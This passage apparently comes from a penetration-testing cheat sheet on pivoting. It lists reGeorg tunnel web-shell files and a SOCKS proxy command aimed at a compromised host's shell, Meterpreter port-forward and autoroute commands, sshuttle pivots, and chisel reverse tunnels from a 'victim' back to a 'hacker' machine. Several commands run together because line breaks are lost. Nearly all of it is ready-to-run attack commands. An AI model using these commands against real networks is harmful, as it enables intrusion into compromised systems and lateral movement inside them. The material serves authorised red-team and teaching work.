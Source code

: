 - tunnel.ashx
- tunnel.aspx
- tunnel.js
- tunnel.jsp
- tunnel.nosocket.php
- tunnel.php
- tunnel.tomcat.5.jsp

    python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp # the socks proxy will be on port 8080optional arguments:-h, --help           show this help message and exit-l , --listen-on     The default listening address-p , --listen-port   The default listening port-r , --read-buff     Local read buffer, max data to be sent per POST-u , --url           The url containing the tunnel script-v , --verbose       Verbose output[INFO|DEBUG]

## Metasploit

    # Meterpreter list active port forwardsportfwd list# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shellportfwd add –l 3389 –p 3389 –r target-hostportfwd add -l 88 -p 88 -r 127.0.0.1portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shellportfwd delete –l 3389 –p 3389 –r target-host# Meterpreter delete all port forwardsportfwd flushor# Use Meterpreters autoroute script to add the route for specified subnet 192.168.15.0run autoroute -s 192.168.15.0/24use auxiliary/server/socks4a# Meterpreter list all active routesrun autoroute -proute #Meterpreter view available networks the compromised host can access# Meterpreter add route for 192.168.14.0/24 via Session number.route add 192.168.14.0 255.255.255.0 3# Meterpreter delete route for 192.168.14.0/24 via Session number.route delete 192.168.14.0 255.255.255.0 3# Meterpreter delete all routesroute flush

## sshuttle

Transparent proxy server that works as a poor man’s VPN. Forwards over ssh.

- Doesn’t require admin.
- Works with Linux and MacOS.
- Supports DNS tunneling.

    pacman -Sy sshuttleapt-get install sshuttlesshuttle -vvr user@10.10.10.10 10.1.1.0/24sshuttle -vvr username@pivot_host 10.2.2.0/24

## chisel

    go get -v github.com/jpillora/chisel# forward port 389 and 88 to hacker computeruser@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
